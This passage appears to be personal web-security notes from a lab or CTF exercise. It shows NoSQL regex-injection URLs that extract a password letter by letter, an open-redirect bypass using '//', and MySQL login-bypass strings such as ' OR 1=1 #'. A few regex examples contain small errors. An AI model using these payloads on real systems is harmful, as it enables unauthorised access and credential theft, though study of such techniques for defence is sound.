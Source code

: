     ```
    /?search=admin'%20%26%26%20this.password.match(/.*/)%00
    ```

     we can see a result.

  * if we access:

    ```
    /?search=admin'%20%26%26%20this.password.match(/zzzzz/)%00
    ```

    we cannot see a result.

  * if we access:

    ```
     /?search=admin'%20%26%26%20this.passwordzz.match(/.*/)%00
    ```

    we get an error message (since the field `passwordzz` does not exist).

* The algorithm for regex matching looks like:

  * test if password match `/^a.$/` it will return true if password starts with 'a' of if it return false then move to the next letter. i.e, `/^b.$/`

* EXAMPLE lets say password is 'aab':

  * `/^a.*$/` that will return true.
  * `/^a$/` that will return false.
  * `/^aa.*$/` that will return true.
  * `/^aa$/` that will return false.
  * `/^aaa.*$/` that will return false.
  * `/^aab.*$/` that will return true.
  * `/^aab$/` that will return true. The password has been found.

### Open Redirect

* If the redirect URL needs to start with `/` in `/redirect.php?uri=/`

  then we can use `//` to bypass this because if we do `/redirect.php?uri=//www.google.com` then if the host site is http or https then it will automatically add `http:`  or `https:` in the starting of `//www.google.com` to it respectively.

### SQL Injecton(MySQL)

* if sql query is like:

  ```mysql
  SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
  ```

  where [USER] and [PASSWORD] are the values to be submitted

  To Bypass this:   we will input user as `' OR 1=1 # ` or `' OR 1=1 -- `  to make the query as

  ```mysql
  SELECT * FROM user WHERE login='' OR 1=1 # ' and password='[PASSWORD]';
  ```
